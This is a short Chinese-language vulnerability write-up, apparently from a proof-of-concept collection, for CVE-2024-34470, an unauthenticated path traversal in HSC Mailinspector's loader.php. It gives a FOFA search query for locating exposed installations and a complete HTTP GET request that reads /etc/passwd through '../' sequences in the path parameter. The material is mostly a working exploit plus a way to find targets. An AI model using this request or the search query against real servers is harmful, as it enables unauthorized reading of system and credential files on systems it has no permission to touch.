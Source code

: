 ## HSC-Mailinspector-loader.php存在任意文件读取漏洞(CVE-2024-34470)

HSC Mailinspector是一款远程电子邮件检查工具，支持POP3/IMAP4协议。它允许用户远程扫描最新邮件，并进行浏览、垃圾邮件排除、编辑、删除等操作，无需实际登录邮箱。由于HSC Mailinspector的/public/loader.php文件存在的路径遍历漏洞，path参数无法正确筛选传递的文件和目录是否为webroot的一部分，从而使未经身份验证的攻击者能够读取服务器上的任意文件。

## fofa

```
body="mailinspector/public"
```
![image](https://github.com/user-attachments/assets/6e7f363a-42c4-4108-9150-28cbe8cae1b6)

## poc

```
GET /mailinspector/public/loader.php?path=../../../../../../../etc/passwd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406041239536.webp)
